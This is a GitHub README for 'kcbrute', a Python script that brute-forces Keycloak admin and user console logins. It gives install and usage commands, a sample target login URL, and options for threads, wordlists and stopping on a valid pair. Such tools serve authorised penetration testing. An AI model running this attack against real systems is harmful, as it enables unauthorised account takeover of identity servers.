 [![Python](https://img.shields.io/badge/Python-%E2%89%A5%203.12-yellow.svg)](https://www.python.org/) 
<img src="https://img.shields.io/badge/Developed%20on-kali%20linux-blueviolet">
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">
<img src="https://img.shields.io/badge/Experimental-121212">

## Purpose
Basic brute-force script targeting the standard Keycloak Admin/User Console browser login flow.  
![Screenshot 2025-03-27 142402](https://github.com/user-attachments/assets/dd260042-3c4a-4ec1-a917-a42b7cddc11e)


## Installation
```
git clone https://github.com/t3l3machus/kcbrute && cd kcbrute && pip3 install -r requirements.txt
```


## Usage
1. Copy the full URL of the target keycloak server you wish to attack. It typically looks something like this:
  ```
  https://192.168.1.51:8443/realms/master/protocol/openid-connect/auth?client_id=security-admin-console&redirect_uri=https%3A%2F%2F192.168.1.51%3A8443%2Fadmin%2Fmaster%2Fconsole%2F&state=d47a2004-6749-4651-8955-  ae1bd290ad82&response_mode=query&response_type=code&scope=openid&nonce=42c82af0-fb83-4211-90b6-6404226bb092&code_challenge=xqljsSmaLXaBRzouH6LhEq7PaomvhUDE-bNeHSCRd_U&code_challenge_method=S256
  ```
  **Important**: If you have visited the login URL in the past, delete all cookies and perform a hard refresh (`CTRL + SHIFT + R`).  

2. Fire up `kcbrute` providing the login URL, username and password lists of your choice:
  ```
  python3 kcbrute.py -l 'https://192.168.1.51:8443/realms/master/protocol/openid-connect/auth?client_id=security-admin-console&redirect_uri=https%3A%2F%2F192.168.1.51%3A8443%2Fadmin%2Fmaster%2Fconsole%2F&state=d47a2004-6749-4651-8955-ae1bd290ad82&response_mode=query&response_type=code&scope=openid&nonce=42c82af0-fb83-4211-90b6-6404226bb092&code_challenge=xqljsSmaLXaBRzouH6LhEq7PaomvhUDE-bNeHSCRd_U&code_challenge_method=S256' -u usernames.txt -p passwords.txt
  ```

### Supported options:
```
BASIC OPTIONS:
  -l, --login-url LOGIN_URL
                        Keycloak login URL to attack.
  -u, --usernames-file USERNAMES_FILE
                        File containing a usernames list.
  -p, --passwords-file PASSWORDS_FILE
                        File containing a passwords list.
  -t, --threads THREADS
                        Number of threads to use.
  -r, --accept-risk     By selecting this option, you consent to attacking the host.
  -s, --success-stop    Stop upon finding a valid pair.

OUTPUT:
  -q, --quiet           Do not print the banner on startup.
  -v, --verbose         Verbose output.
```
